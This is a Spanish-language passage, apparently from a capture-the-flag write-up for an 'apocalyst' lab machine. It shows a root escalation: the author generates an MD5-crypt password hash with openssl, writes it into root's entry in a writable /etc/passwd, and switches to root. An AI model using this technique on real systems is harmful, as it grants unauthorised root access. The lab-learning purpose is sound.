 `Generamos` un `contraseña` con `opensssl`

```
# openssl passwd -1

Password: 
Verifying - Password: 
$1$3Aq69l2R$roAAiqM88qPJVo9vf62c7/
```

Si le pasamos el `hash` creado a `hash-identifier` vemos que la contraseña es `md5`, funcionará igualmente debido a que tiene el `formato correcto`, es decir, es para `unix/linux`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $1$uUWdv7ml$cCzYWZkrwbzPRiJT5Kopr1

Possible Hashs:
[+] MD5(Unix)
```

Nos `abrimos` el `/etc/passwd` con nano y `cambiamos` la `x` que es donde va la `contraseña` por la `contraseña` que hemos `creado`

```
# nano /etc/passwd 
root:$1$3Aq69l2R$roAAiqM88qPJVo9vf62c7/:0:0:root:/root:/bin/bash
```

Nos `convertimos` en usuario `root`

```
falaraki@apocalyst:~$ su root
Password: 
root@apocalyst:/home/falaraki# whoami
root
```
